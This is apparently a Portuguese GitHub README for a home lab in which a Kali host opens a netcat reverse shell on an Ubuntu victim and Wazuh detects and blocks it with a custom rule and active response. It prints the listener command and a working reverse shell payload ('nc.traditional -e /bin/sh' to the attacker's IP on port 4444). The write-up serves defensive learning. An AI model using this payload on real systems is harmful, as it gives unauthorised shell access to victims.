






# Laboratório Reverse Shell Detection & Active Response

Este laboratório foca na detecção e mitigação automática de uma Reverse Shell utilizando o Wazuh (SIEM/XDR). O objetivo é identificar uma conexão estabelecida entre um servidor Ubuntu (vítima) e um Kali Linux (atacante) na porta 4444 e interromper o ataque em tempo real via Active Response.

## Arquitetura do Ambiente:
O laboratório foi construído usando as seguintes ferramentas:

**Manager: Wazuh Server (OVA)**

**Vítima: Ubuntu Server 22.04 (Wazuh Agent)**

**Atacante: Kali Linux (Netcat)**

**Ferramentasd: netstat, iptables, bash, XML**

---

## **1. Read Team(Ataque)**

Para gerar o evento de segurança, foi simulada uma invasão onde o atacante consegue execução de código remoto (RCE).

1.1 - Atacante (Kali): Coloca o Netcat em escuta com o comando:
```bash
nc -lvnp 4444
```


1.2 - Após isso executei o payload de shell reverso com o comando:
```bash
nc.traditional -e /bin/sh 192.168.1.8 4444
```


**Após isso tive êxito na conexão e tive acesso ao terminal da VM vítima.**

## **2. Detecção**

Após o ataque tive os seguintes resultados no meu monitoramento



A lista de eventos no Wazuh mostrou múltiplos alertas de reverse shell na porta 4444 detectados no agente ubuntu-vítima.

---


Dashboard do Wazuh exibindo métricas do agente ubuntu vítima, destacando 31 alertas de nível 12 relacionados à detecção do reverse shell na porta 4444.

## **3. Configuração de detecção e Automated Response**

3.1 - Agent Side

Configurei o agente para monitorar conexões ativas a cada 30 segundos no arquivo /var/ossec/etc/ossec.conf adicionando o seguinte bloco ao xml:

```bash

<localfile>
  <log_format>full_command</log_format>
  <command>netstat -ant | grep 4444</command>
  <alias>reverse_shell_port</alias>
  <frequency>30</frequency>
</localfile>
```
3.2 - Manager Side

No servidor Wazuh, criei uma regra customizada no /var/ossec/etc/rules/local_rules.xml para identificar a string "4444" como um evento crítico:

```bash
<rule id="100001" level="12">
  <if_sid>530</if_sid>
  <match>4444</match>
  <description>ALERTA: Possível Shell Reversa Detectada (Porta 4444 ativa)</description>
</rule>
```
Após isso busquei a reação da vítima para bloquear o ataque na porta 4444

3.3 - Script de bloqueio

Criei um script em /var/ossec/active-response/bin/bloqueia_shell.sh para aplicar uma regra de firewall instantânea:



3.4 - Configuração do manager

Vinculei a seguinte regra 100001 ao script de bloqueio no ossec.conf do Manager:


```bash
<command>
  <name>cortar_acesso</name>
  <executable>bloqueia_shell.sh</executable>
</command>

<active-response>
  <command>cortar_acesso</command>
  <location>local</location>
  <rules_id>100001</rules_id>
</active-response>
```
## **4 - Resultado**

A conexão no terminal do atacante (Kali) foi "congelada" e o terminal não respondia mais nenhum comando feito pelo Kali.


## **5 - Conclusão**

A implementação deste laboratório demonstra a transição de um modelo de Monitoramento Passivo para uma estratégia de Defesa Ativa (XDR). Através da integração entre o agente e o manager do Wazuh, consegui não apenas visibilidade sobre uma técnica comum de ataque (T1059 - MITRE ATT&CK), mas também a automação da resposta.


